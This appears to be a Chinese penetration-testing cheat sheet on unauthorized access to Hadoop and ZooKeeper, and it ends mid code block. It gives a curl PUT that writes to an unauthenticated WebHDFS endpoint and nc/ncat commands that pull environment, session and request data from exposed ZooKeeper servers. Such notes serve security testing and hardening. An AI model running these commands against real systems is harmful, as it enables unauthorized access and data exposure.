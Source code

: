
# 对外
## 分布式
### Hadoop
**文章**
- [Hadoop渗透及安全加固](http://www.polaris-lab.com/index.php/archives/187/)
- [挖掘分布式系统——Hadoop的漏洞](https://zhuanlan.zhihu.com/p/28901633)

**Hadoop 未授权访问**
- 示例
    ```
    curl -i -X PUT “http://ip:50070/webhdfs/v1/NODATA4U_SECUREYOURSHIT?op=MKDIRS“
    http://<ip>:50070
    http://<ip>:50070/dfshealth.jsp
    http://<ip>:50070/logs/
    ```

### ZooKeeper
**ZooKeeper 未授权访问漏洞**
- 文章
    - [ZooKeeper 未授权访问漏洞](https://blog.csdn.net/qq_23936389/article/details/83826028)
    - [攻击大数据应用：ZooKeeper](http://www.polaris-lab.com/index.php/archives/41/)

- 搭建环境
    ```bash
    wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
    tar -zxvf zookeeper-3.4.14.tar.gz
    cd zookeeper-3.4.14/
    cd conf/
    ```
    ```vim
    vim zoo.cfg  # 配置单机模式

    tickTime=2000
    dataDir=/tmp/zookeeper/data
    dataLogDir=/tmp/zookeeper/logs
    clientPort=2181
    ```
    ```bash
    cd ..
    bin/zkServer.sh start   # 启动
    bin/zkCli.sh -server 127.0.0.1:2181 #连接 server
    ```

- 利用
    ```bash
    echo envi|nc <ip> 2181 # 打印有关服务环境的详细信息
    echo dump |ncat <ip> 2181 # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181 # 列出未完成的请求
    echo ruok |ncat <ip> 2181 # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181 # 列出关于性能和连接的客户端的统计信息
